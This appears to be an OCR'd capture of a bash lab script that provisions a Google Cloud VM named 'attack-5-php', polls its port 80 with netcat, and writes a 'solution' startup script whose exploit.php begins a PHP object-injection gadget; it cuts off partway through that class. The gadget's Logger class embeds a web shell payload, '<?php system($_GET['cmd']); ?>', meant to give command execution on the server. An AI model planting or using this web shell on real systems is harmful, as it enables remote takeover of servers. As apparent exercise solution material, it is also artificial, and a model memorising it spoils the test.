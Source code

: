 ```bash
  --boot-disk-size "10GB" \
  --tags "http-server,lb-health-check,attack-5-php" \
  --metadata-from-file startup-script=startup-script.sh \
  --metadata google-compute-default-timeout=600 \
  --maintenance-policy=TERMINATE \
  --provisioning-model=STANDARD \
  --instance-termination-action=DELETE \
  --max-run-duration=600s

# Get the external IP of the created instance
eip=$(gcloud compute instances describe "attack-5-php" \
  --zone "asia-south2-a" \
  --format="get(networkInterfaces[0].accessConfigs[0].natIP)")

echo "External IP Address: $eip"

# Install Netcat (openbsd version recommended)
echo "Installing Netcat (openbsd)..."
sudo apt-get update
sudo apt-get install -y netcat-openbsd

# Verify Netcat installation
if ! command -v nc &> /dev/null; then
    echo "Netcat installation failed. Exiting."
    exit 1
fi

echo "Netcat installed successfully."

# Wait until port 80 is available
echo "Waiting for port 80 to be live..."
while ! nc -zv $eip 80 2>/dev/null; do
  echo "Port 80 not live yet. Retrying in 5 seconds..."
  sleep 5
done

echo "Port 80 is live! Proceeding with tests."


# Solution
cat <<'EOF' > startup-script-solution.sh
#!/bin/bash
sudo apt-get update
sudo apt-get upgrade -y

# Install necessary packages
sudo apt-get install -y apache2 php libapache2-mod-php php-zip

cd /var/www/html/

sudo tee exploit.php > /dev/null <<'PHPEOF'
<?php
ini_set('display_errors', 1);
ini_set('display_startup_errors', 1);
error_reporting(E_ALL);
class Logger {
    public $logFile;
    public $initMessage;
    public $exitMessage;

    function __construct() {
        $this->initMessage = "Init message.\n";
        $this->exitMessage = "<?php system($_GET['cmd']); ?>\n";
```